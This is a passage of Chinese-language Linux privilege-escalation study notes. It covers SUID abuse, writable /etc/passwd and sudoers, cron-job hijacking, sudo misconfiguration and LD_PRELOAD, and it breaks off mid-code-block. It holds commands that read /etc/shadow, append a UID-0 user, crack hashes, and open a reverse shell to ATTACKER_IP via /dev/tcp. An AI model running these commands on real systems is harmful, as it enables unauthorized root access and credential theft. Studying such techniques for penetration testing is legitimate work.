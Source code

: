             *   `systemctl` (特定条件下链接和启用 service)
            *   `base64` (补充笔记: 若有 SUID，可用于读取任意文件，如 `base64 /etc/shadow | base64 --decode`)
            *   ... 更多见 GTFOBins
    *   **示例 (利用 `nano` SUID)**:
        1.  确认 `nano` 有 SUID root 权限。
        2.  `nano /etc/shadow` 和 `nano /etc/passwd`，复制内容到本地。
        3.  本地使用 `unshadow passwd.txt shadow.txt > hashes.txt`。
        4.  使用 `john hashes.txt --wordlist=<wordlist>` 破解密码。
        5.  **或**: 使用 `openssl passwd -1 -salt <salt> <password>` 生成新 root 用户密码哈希。
        6.  `nano /etc/passwd`，在末尾添加新 root 用户行 `newroot:<hash>:0:0:root:/root:/bin/bash`。
        7.  保存后，`su newroot`。

3.  **利用错误的配置文件权限 (Misconfigured Permissions)**
    *   **/etc/passwd 可写**:
        *   **原理**: 直接添加 UID 为 0 的用户。
        *   **步骤**: 检查权限 -> 生成密码哈希 -> 构造用户行 -> 追加到 `/etc/passwd` -> `su newroot`。
    *   **/etc/shadow 可读**:
        *   **原理**: 获取哈希进行离线破解。
        *   **步骤**: `cat /etc/shadow` -> 复制哈希 -> 使用 John the Ripper 或 Hashcat 破解。
    *   **/etc/sudoers 可写**:
        *   **原理**: 直接给自己添加 `sudo ALL=(ALL:ALL) ALL` 权限。使用 `visudo` 编辑是安全的，但如果文件本身可写，可直接修改（危险！可能破坏 sudo 功能）。
    *   **其他敏感文件/目录可写**: 服务配置文件、用户家目录下的脚本、web 服务器目录等。结合 Cron Job 或 PATH 提权。使用 `find / -writable ...` 命令查找。

4.  **利用计划任务 (Cron Jobs)**
    *   **原理**: 系统 (`/etc/crontab`, `/etc/cron.d/*` 等) 或用户 (`crontab -l`) 的 Cron Job 可能以 root 权限执行脚本。如果该脚本或其所在目录对当前用户可写，可修改脚本插入恶意命令（如反弹 Shell）。即使脚本被删除但 Cron 条目仍在 (孤儿任务)，也可创建同名文件来劫持。
    *   **检查**:
        *   `crontab -l`
        *   `ls -l /etc/cron*`
        *   `cat /etc/crontab`
        *   检查列出的脚本及其目录的权限 (`ls -l <script_path>`, `ls -ld <script_dir>`)。
    *   **利用**: 修改脚本，添加 `bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'` 等。等待任务执行。

5.  **密码复用与弱密码 (Password Reuse & Weak Passwords)**
    *   **原理**: 在系统配置、数据库连接字符串、脚本中找到的密码，或通过破解 `/etc/shadow` 得到的密码，可能也是 root 或其他高权限用户的密码。尝试 `su root` 或 SSH 登录。

6.  **利用 Sudo 配置错误 (Sudo Misconfiguration)**
    *   **原理**: `sudo -l` 显示用户可以 `sudo` 执行的命令。
    *   **利用**:
        *   **允许的命令可提权**: 如果 `sudo -l` 显示可以运行 `find`, `vim`, `nmap`, `pip`, `docker` 等，查阅 GTFOBins 获取相应的 sudo 提权命令。示例：`sudo find . -exec /bin/sh \; -quit`。
        *   **`NOPASSWD`**: 命令无需密码即可 `sudo` 执行。
        *   **`LD_PRELOAD` / `LD_LIBRARY_PATH` 环境变量劫持**:
            1.  检查 `sudo -l` 输出中是否有 `env_keep+=LD_PRELOAD` 或 `env_keep+=LD_LIBRARY_PATH`。
            2.  编写恶意共享库 (`.so`) 文件，其 `_init` 函数执行提权操作（如 `setuid(0)`, `system("/bin/bash")`）。
                ```c
                #include <stdio.h>
                #include <sys/types.h>
                #include <stdlib.h>
